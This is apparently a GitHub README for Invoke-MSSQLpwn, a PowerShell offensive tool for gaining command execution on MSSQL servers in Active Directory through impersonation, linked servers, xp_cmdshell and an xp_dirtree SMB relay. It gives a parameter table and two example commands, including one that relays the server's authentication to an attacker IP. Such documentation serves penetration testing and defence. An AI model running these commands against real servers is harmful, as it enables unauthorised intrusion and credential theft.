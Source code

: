 # Invoke-MSSQLpwn

Invoke-MSSQLpwn is a PowerShell tool that attempts to gain code execution on MSSQL servers in an Active Directory environment.

## Usage

| Parameter | Description |
|---|---|
| `Enumerate` | This will find MSSQL service principal names within the current domain, attempt to authenticate as the current user, enumerate permissions on the server, and find linked servers. |
| `Target` | Specifies the MSSQL server to be connected to |
| `Link` | Specifies a linked server on the target server to connect to |
| `Impersonate` | Specifies a login to be impersonated on the target server |
| `LinkImpersonate` | Specifies a login to be impersonated on the linked server |
| `Command` | Cmd command to be executed |
| `Mode` | Specifies the how code execution is obtained. This can be set to 1 or 2. Mode 1 is the default and uses xp_cmdshell. Mode 2 uses a custom ole automation procedure |
| `Relay` | Specifies the attacking server to be connected to for an SMB relay attack. This uses the xp_dirtree procedure to connect to the SMB share. |
| `database` | Specifies the database to be used in the connection string. The default is master. |

## Examples

![Example](https://user-images.githubusercontent.com/62299138/114249179-7d6a6680-995f-11eb-91fa-f8628b4828a8.png)

```powershell
Invoke-MSSQL -Target "MSSQL1" -Link "MSSQL2" -LinkImpersonate "sa" -Command "calc.exe"
```

![dirtree](https://user-images.githubusercontent.com/62299138/114249432-33ce4b80-9960-11eb-9841-cdbd9edd8716.png)
```powershell
Invoke-MSSQL -Target "MSSQL1" -Relay "192.168.1.5"
